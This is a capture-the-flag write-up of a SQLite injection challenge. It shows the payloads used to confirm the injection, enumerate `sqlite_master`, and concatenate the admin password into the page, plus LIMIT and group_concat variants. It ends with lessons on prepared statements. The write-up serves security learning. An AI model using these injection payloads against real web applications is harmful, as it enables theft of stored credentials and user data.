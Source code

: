# Share the ideas CTF Challenge Writeup

## **Challenge Overview**
We encountered a web application with a vulnerable parameter that allowed SQL injection. Our goal was to extract sensitive data, particularly the admin password, which turned out to be a flag.

## **Step 1: Identifying the Vulnerability**
### **Observing User Input Handling**
- The application accepted user input via a parameter called `idea`.
- The input was reflected in the HTML response, indicating possible direct execution of SQL queries.
- By appending a simple SQL payload, we could determine if the application was vulnerable.
- It sounds basic, but the most importand step is to figure out what the db is.The error
  
**"HY000 1 unrecognized token: `')`"** suggests that you are using **SQLite**.  

### Why is it likely SQLite?  
1. **Error Code `HY000 1`**  
   - The `HY000` is a generic SQLSTATE error code for "general error."  
   - The `1` after it is a common SQLite-specific error code indicating syntax issues.  


### **Testing for SQL Injection**
We started with a basic SQL injection test:

```sql
idea=test' OR '1'='1
```

If the application displayed unexpected behavior, such as listing all records or modifying the response, this would confirm an SQL injection vulnerability.

## **Step 2: Extracting Database Metadata**
Once confirmed, we attempted to enumerate the database structure using SQLite’s metadata table:

```sql
SELECT sql FROM sqlite_master;
```

This revealed the schema of the database, including a table called `xde43_users`, which contained the following columns:

![image](https://github.com/user-attachments/assets/e3bd580f-2f13-4f97-bd57-5f04107bd761)


```sql
CREATE TABLE "xde43_users" (
    "id" int(10) NOT NULL,
    "name" varchar(255) NOT NULL,
    "email" varchar(255) NOT NULL,
    "password" varchar(255) NOT NULL,
    "role" varchar(100) DEFAULT NULL
)
```

## **Step 3: Extracting the Admin Password**
From the table schema, we identified the `password` column and attempted to retrieve the admin’s password:
![image](https://github.com/user-attachments/assets/d20cd01e-0238-4495-97f8-318e839f00ca)


```sql
idea=test ' || (SELECT password FROM xde43_users WHERE role='admin') || '
```

The response contained the flag:

```html
<p class="list-group-item-text"> test flag245698 </p>
```

## **Step 4: Understanding the Exploit**
### **Why Did This Work?**
- SQLite allows string concatenation with `||`, making it possible to inject our query.
- The web application directly executed our injected SQL statement.
- The `SELECT password FROM xde43_users WHERE role='admin'` query returned the admin password, which was displayed on the page.

### **Improving the Exploit**
If multiple admin users existed, this query might fail due to multiple results. To ensure stability, we could use:

```sql
SELECT password FROM xde43_users WHERE role='admin' LIMIT 1;
```
Or, to concatenate multiple results:

```sql
SELECT group_concat(password) FROM xde43_users WHERE role='admin';
```

## **Step 5: Conclusion & Lessons Learned**
### **Key Takeaways:**
1. **SQL Injection is still a major security risk** if input validation is not enforced.
2. **Metadata tables in SQLite (`sqlite_master`) provide crucial information** about the database structure.
3. **Web applications should use prepared statements** to prevent SQL injection.
4. **Capture The Flag (CTF) challenges teach real-world exploitation techniques** in a safe environment.

## **Final Flag:**
```
flag245698
```

